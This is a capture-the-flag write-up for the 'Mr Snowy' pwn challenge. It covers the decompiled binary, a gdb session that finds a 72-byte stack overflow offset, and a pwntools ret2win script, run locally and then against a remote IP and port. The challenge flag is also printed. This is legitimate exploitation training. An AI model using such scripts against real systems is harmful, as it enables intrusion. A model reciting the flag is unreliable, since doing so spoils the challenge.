





# Mr Snowy but Easier :')

There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always 👀 staring at Santa's house. Something must be wrong with him.

> If only I realised this function earlier :'). There were a function called "deactivate_camera" which print the flag right away.

## Analysis

In this challenge we were given an ELF-64bit named `mr_snowy` with no canary, NX enabled, and no PIE.

```
$ file mr_snowy; checksec mr_snowy
mr_snowy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d6143c5f2214b3fe5c3569e23bd53666c7f7a366, not stripped
[*] '/home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

#### First try



#### Second try



#### Third try



It seems that we have to insert 1 for the first input and then deactivate the camera by knowing the password. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(*(_QWORD *)&argc, argv, envp);
  banner();
  snowman();
  return 0;
}
```

> When I check the other write up... They only called the function "deactivate_camera" after the buffer offset. So that is what we are going to do right now!

From the main function, it called 2 other function, banner() and snowman(). Function banner() only give the output of the snowman and the function snowman() reads the input and determine the flow of the program.

So, we need to dive into the function snowman more!

#### snowman
```c
int snowman()
{
  char buf; // [rsp+0h] [rbp-40h]

  printstr(&unk_4019A8);
  fflush(_bss_start);
  read(0, &buf, 2uLL);
  if ( atoi(&buf) != 1 )
  {
    printstr("[*] It's just a cute snowman after all, nothing to worry about..\n");
    color((unsigned __int64)"\n[-] Mission failed!\n");
    exit(-69);
  }
  return investigate();
}
```

We are right, we need to choose 1 at the first input that the program asked. Otherwise, the program will exit. If we choose 1, the program will redirect into function investigate(). So, we need to check that out.

#### investigate
```c
int investigate()
{
  char buf; // [rsp+0h] [rbp-40h]

  fflush(_bss_start);
  printstr(&unk_401878);
  fflush(_bss_start);
  read(0, &buf, 0x108uLL);
  if ( atoi(&buf) == 1 )
  {
    puts("\x1B[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
    exit(22);
  }
  if ( atoi(&buf) == 2 )
  {
    puts("\x1B[1;31m");
    printstr("[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n");
    exit(22);
  }
  fflush(_bss_start);
  puts("\x1B[1;31m");
  fflush(_bss_start);
  puts("[-] Mission failed!");
  return fflush(_bss_start);
}
```

In the second input, the program didn't check the input. So we could fill this buffer until it overflows.

Turns out the program have a function called `deactivate_camera` that sounds a bit sus. Because all that we need to solve the program is to turn off or deactivate the camera. So let's take a look into that function

```c
int deactivate_camera()
{
  void *v0; // rsp
  FILE *stream; // [rsp+0h] [rbp-30h]
  char *s; // [rsp+8h] [rbp-28h]
  __int64 v4; // [rsp+10h] [rbp-20h]
  int n; // [rsp+1Ch] [rbp-14h]

  n = 48;
  v4 = 47LL;
  v0 = alloca(48LL);
  s = (char *)&stream;
  stream = fopen("flag.txt", "rb");
  if ( !stream )
  {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n", 1uLL, 0x3FuLL, _bss_start);
    exit(-69);
  }
  fgets(s, n, stream);
  puts("\x1B[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ", 1uLL, 0x3AuLL, _bss_start);
  puts(s);
  return fclose(stream);
}
```


This is the one :'). Let's use gdb to find the offset and get the function address.

First, we could use gdb to create a pattern.
```
$ gdb -q ./mr_snowy
Reading symbols from ./mr_snowy...
(No debugging symbols found in ./mr_snowy)
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy 

                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
 \_______/    *   *   *  ***   **                                                                                
                                                                                                                 
                                                                                                                 
[*] This snowman looks sus..                                                                                     
                                                                                                                 
1. Investigate 🔎                                                                                                
2. Let it be   ⛄                                                                                                
> 1                                                                                                              
                                                                                                                 
[!] After some investigation, you found a secret camera inside the snowman!                                      
                                                                                                                 
1. Deactivate ⚠                                                                                                  
2. Break it   🔨                                                                                                 
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL           
                                                                                                                 
[-] Mission failed!                                                                                              
                                                                                                                 
Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffde98: 0x4134414165414149
gdb-peda$ pattern offset 0x4134414165414149
4698452060381725001 found at offset: 72
```

Nice, we got the offset/padding. Now we need to know the address of `deactivate_camera` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000400868  _init
0x0000000000400890  putchar@plt
0x00000000004008a0  puts@plt
0x00000000004008b0  fclose@plt
0x00000000004008c0  strlen@plt
0x00000000004008d0  printf@plt
0x00000000004008e0  alarm@plt
0x00000000004008f0  read@plt
0x0000000000400900  srand@plt
0x0000000000400910  fgets@plt
0x0000000000400920  strcmp@plt
0x0000000000400930  time@plt
0x0000000000400940  fflush@plt
0x0000000000400950  setvbuf@plt
0x0000000000400960  fopen@plt
0x0000000000400970  atoi@plt
0x0000000000400980  exit@plt
0x0000000000400990  fwrite@plt
0x00000000004009a0  sleep@plt
0x00000000004009b0  rand@plt
0x00000000004009c0  usleep@plt
0x00000000004009d0  _start
0x0000000000400a00  _dl_relocate_static_pie
0x0000000000400a10  deregister_tm_clones
0x0000000000400a40  register_tm_clones
0x0000000000400a80  __do_global_dtors_aux
0x0000000000400ab0  frame_dummy
0x0000000000400ab7  reset
0x0000000000400acf  rainbow
0x0000000000400d3b  color
0x00000000004010ed  printstr
0x0000000000401165  deactivate_camera
0x0000000000401278  banner
0x0000000000401374  investigate
0x000000000040146a  snowman
0x00000000004014f1  setup
0x000000000040153e  main
0x0000000000401560  __libc_csu_init
0x00000000004015d0  __libc_csu_fini
0x00000000004015d4  _fini
```

From the `info function` above, we know that the address of `deactivate_camera` function is `0x0000000000401165`.

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 72
deactivate_camera = 0x0000000000401165

elf = ELF("./mr_snowy")
s = elf.process()

payload = b"A"*offset
payload += p64(deactivate_camera)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())

s.close()
```

Now we need to do is just run the program to make sure it works on local first!



It works! To access the server remotely, we need to add remote to server using host and port.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
deactivate_camera = 0x0000000000401165

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

payload = b"A"*offset
payload += p64(deactivate_camera)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())

s.close()
```

Now all we need to do is just run the program!



Flag: `HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}`